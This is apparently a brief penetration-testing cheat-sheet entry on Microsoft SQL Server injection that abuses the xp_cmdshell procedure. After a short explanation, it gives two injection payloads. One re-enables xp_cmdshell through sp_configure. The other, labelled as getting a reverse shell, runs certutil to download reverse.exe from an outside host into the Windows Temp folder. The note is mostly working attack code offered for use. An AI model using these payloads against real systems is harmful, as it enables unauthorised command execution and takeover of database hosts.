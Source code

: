 #mssqli 
# Executing Commands
**xp_cmdshell** is a system-extended stored procedure in Microsoft SQL Server that enables the execution of operating system commands and programs from within SQL Server. It provides a mechanism for SQL Server to interact directly with the host operating system's command shell. While it can be a powerful administrative tool, it can also be a security risk if not used cautiously when enabled.

```sql
-- Activate xp_cmdshell (Disabled by default since SQL Server 2005)
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
```
```sql
-- Get Reverse Shell
'; EXEC xp_cmdshell 'certutil -urlcache -f http://10.8.139.254:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
```
